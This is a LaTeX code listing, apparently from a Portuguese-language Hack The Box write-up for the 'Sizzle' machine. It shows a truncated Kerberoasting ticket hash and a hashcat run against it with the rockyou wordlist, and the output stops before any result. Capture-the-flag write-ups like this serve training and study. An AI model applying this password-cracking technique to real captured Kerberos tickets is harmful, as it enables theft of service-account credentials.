\documentclass[a4paper]{article}
\begin{document}
        \begin{lstlisting}[language=Bash, caption=Credenciais mediante Hashcat, linewidth=17.8cm]
$ cat hash-kerberoasting.txt
$krb5tgs$23$*mrlky$HTB.LOCAL$http/sizzle@HTB.LOCAL*$C8B04860ABD4D1D0917DC9E6E46...

$ hashcat -m 13100 -a 0 hash-kerberoasting.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.5) starting

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) ...
========================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-6300U CPU @ 2.40GHz, 1441/2947 MB (512 MB allocatable), 1MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

Cracking performance lower than expected?

* Append -O to the commandline.
  This lowers the maximum supported password/salt length (usually down to 32).

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework


\end{lstlisting}
\end{document}
